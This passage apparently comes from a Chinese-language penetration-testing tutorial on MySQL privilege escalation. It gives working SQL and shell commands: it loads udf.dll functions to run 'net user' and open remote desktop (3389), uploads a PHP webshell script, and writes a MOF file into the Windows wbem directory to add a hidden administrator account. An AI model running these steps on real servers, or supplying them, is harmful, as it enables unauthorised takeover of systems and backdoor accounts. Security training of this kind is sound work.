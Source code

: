 select cmdshell("net user xy" );



下一步我们再次新建自定义函数开启目标服务器的3389远程连接（帮助文档中可以查看开3389的自定义函数）

依旧是调用udf.dll文件新建自定义函数：
Create Function open3389 returns string soname 'udf.dll';
#create 创建
#function 功能
利用udf.dll创建加载一个功能，功能函数命名为：open3389


调用open3389函数，开启目标服务器远程连接
select open3389();  #开启远程桌面

最后使用我们新建的账号和密码去登录远程连接操作服务器即可
以上操作建立在对方数据库开启远程连接，且3306端口没有被防火墙策略拦截的情况下才能操作成功。



那么如果遇到对方数据库端口被出口防火墙拦截无法利用MySQL提权工具的情况
下，可以利用脚本木马去提权（udf1.php）
步骤：
1，菜刀把脚本（udf1.php）上传到对方站点，本地使用浏览器访问
2，连接上脚本之后，其实具体的操作和我们以上使用mysql综合利用工具是类似的，直接调用即

生产环境中，大多数是使用脚本的模式，因为他不用考虑防火墙是否拦截的问题。
直接脚本落地到目标服务器，而且操作也更加的便利。



# **三、数据库提权之MOF提权**
MOF 提权漏洞是一个有历史的漏洞，基本上在 Windows Server 2003 的环境下
才可以成功。
mof文件是一种用于描述Windows系统管理对象的文件，其中包含了WMI（Windows Management
Instrumentation）的相关信息，可以被WMI识别和解析。
通常，mof文件是由开发人员或系统管理员编写的。在Windows系统中，通过mof文件可以管理系统的各种属性、设置、状态等，包括但不限于硬件、软件、网络连接、用户账户等。在mof文件中，包含了对象的属性、方法和事件等信息，以及对象之间的关系。通过WMI，系统可以根据mof文件中的描述创建和管理相应的对象。
==提权的原理是：==
==C:/Windows/system32/wbem/mof/目录下的mof文件每隔一段时间（几秒钟左右）都会被系统执行，因为这个MOF里面有一部分是VBS脚本，所以可以利用这个VBS脚本来调用 系统的CMD命令行来执行系统命令，如果MySQL有权限操作mof目录的话，就可以来执行任意命令了。==

VBS脚本介绍： https://blog.csdn.net/qq_42814498/article/details/88974541


MOF 提权操作方法（==无回显==）：
1，如果说数据库允许远程连接：使用mysql综合利用工具直接调用mof模块进行提权
（1）打开mysql综合利用工具，选择mof提权

（2）输入命令添加账号密码：net user 666 666 /add

（3）输入命令将666账号加入管理员组：net localgroup administrators 666 /add
![[Pasted image 20241021215053.png]]

2，数据库不允许远程连接的情况下：
利用菜刀上传脚本文件（moon.mof）到目标网站根目录（因为拿到webshell代表根目录有可读写权
限）
（1）菜刀数据库执行命令，将上传的脚本加载到C盘的系统配置文件中。
select load_file('C:\\phpStudy\\WWW\\moon.mof') into dumpfile 'c:/windows/system32/wbem/mof/moon.mof';
#Load_file函数的功能是读取文件并返回文件内容为字符串
